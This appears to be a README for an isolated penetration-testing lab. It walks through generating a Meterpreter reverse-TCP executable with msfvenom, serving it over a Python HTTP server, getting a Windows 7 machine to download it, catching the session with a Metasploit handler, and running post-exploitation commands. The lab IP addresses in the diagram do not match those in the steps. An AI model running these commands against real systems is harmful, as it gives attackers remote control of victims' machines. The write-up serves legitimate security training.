

# Project Overview

This project demonstrates a complete **penetration testing lifecycle** inside a fully isolated virtual lab.

# Objectives

* Understand **network isolation (air-gapped lab)**
* Learn **payload generation**
* Practice **file delivery techniques**
* Perform **exploitation using Metasploit**
* Execute **post-exploitation commands**

---

# Lab Architecture

```
Kali Linux (192.168.10.3)  --->  Windows 7 (192.168.10.2)
             |
      VMware LAN Segment (Isolated Network)
```

---

# Environment Setup

| Component        | Details            |
| ---------------- | ------------------ |
| Hypervisor       | VMware Workstation |
| Attacker Machine | Kali Linux         |
| Target Machine   | Windows 7 SP1      |
| Network Type     | LAN Segment        |

*LAN Segment ensures 100% isolation (no internet access)*

---

# Step-by-Step Execution

# Step 1: Network Configuration

**Windows 7**

* IP: `172.16.195.129`
* Subnet: `255.255.255.0`
* Firewall: Disabled

**Kali Linux**

```bash
ip link
sudo ip addr add 172.16.195.128/24 dev eth0
sudo ip link set eth0 up
```

Connectivity Test:

```bash
ping 172.16.195.129
```




---

# Step 2: Payload Generation

```bash
msfvenom -p windows/meterpreter/reverse_tcp \
LHOST=172.16.195.128 LPORT=4444 \
-f exe -o test_lab.exe
```


---

# Step 3: Local File Hosting

```bash
python3 -m http.server 80
```


---

# Step 4: Payload Delivery

* Open Internet Explorer on Windows
* Visit: `http://172.16.195.128`
* Download `test_lab.exe`


---

# Step 5: Metasploit Listener Setup

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 172.16.195.128
set LPORT 4444
exploit
```


---

# Step 6: Post Exploitation

```bash
sysinfo
getuid
shell
whoami
dir
```


---

# Key Learnings

**Network Isolation:** Safe testing environment
**Reverse Connection:** Bypasses firewall restrictions
**Legacy Vulnerabilities:** Windows 7 is highly exploitable

---

# Tools Used

* Kali Linux
* Metasploit Framework
* msfvenom
* Python HTTP Server
* Windows 7

---

# Skills Demonstrated

* Penetration Testing
* Network Configuration
* Exploitation Techniques
* Post-Exploitation
* Cybersecurity Analysis
